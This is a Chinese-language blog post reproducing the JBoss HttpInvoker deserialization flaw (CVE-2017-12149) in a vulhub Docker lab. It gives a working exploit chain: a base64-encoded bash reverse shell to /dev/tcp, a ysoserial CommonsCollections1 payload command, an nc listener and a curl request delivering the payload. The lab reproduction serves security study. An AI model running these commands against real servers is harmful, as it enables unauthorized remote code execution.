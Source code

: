 ```yaml
---
title: Jboss反序列化漏洞(CVE-2017-12149)
tags:
  - CVE
  - JBoss
categories:
  - 漏洞复现
copyright: true
abbrlink: 1de3639b
date: 2019-02-18 00:37:24
---
```


![](https://ae01.alicdn.com/kf/HTB1JnGgaEGF3KVjSZFoq6zmpFXae.jpg)
<!--more-->

## 漏洞介绍 ##

> 该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下就将来自客户端的数据流进行反序列化，从而导致了漏洞。远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。

## 漏洞复现 ##

克隆 `vulnhub` 的项目到本地，cd到对应的文件夹，启动docker，然后执行以下命令开始下载测试环境

```bash
docker-compose up -d
```

浏览器访问 `http://192.168.33.137:8080` 即可看到JBoss默认页面

![](https://ae01.alicdn.com/kf/HTB1xZqnaBGw3KVjSZFD760WEpXa2.png)

漏洞存在 `/invoker/readonly/`请求中，此处服务器将用户提交的POST内容进行了Java反序列化

![](https://ae01.alicdn.com/kf/HTB1azSgavWG3KVjSZPc762kbXXa0.png)

下载用于生成序列化数据的[ysoserial](https://github.com/frohoff/ysoserial "ysoserial")，使用bash反弹shell

```bash
bash -i >& /dev/tcp/192.168.33.137/6666 0>&1
```

由于Runtime.getRuntime().exec()中不能使用管道符等bash需要的方法,需要进行编码，而且漏洞复现文档里所提到的编码工具已经找不到，那就只能手动拼凑一下了

模型： `bash -c {echo,base64编码后的shell命令} | {base64,-d} | {bash,-i}`

先把shell命令base64编码:
`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMzLjEzNy82NjY2IDA+JjEK`

然后替换echo后面的

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMzLjEzNy82NjY2IDA+JjEK} | {base64,-d} | {bash,-i}
```

使用 `ysoserial` 生成Payload：

```bash
java -jar ysoserial.jar CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMzLjEzNy82NjY2IDA+JjEK}|{base64,-d}|{bash,-i}" > poc.ser
```

kali nc监听：

```bash
nc -lvp 6666
```

向存在漏洞的请求地址发送poc：

```bash
curl http://192.168.33.137:8080/invoker/readonly --data-binary @poc.ser
```

![](https://ae01.alicdn.com/kf/HTB1pZV7Xkxz61VjSZFt761DSVXat.png)

成功反弹shell

![](https://ae01.alicdn.com/kf/HTB168mmaBKw3KVjSZFO761rDVXax.png)

**参考：**

https://www.cnblogs.com/ikari/p/8989821.html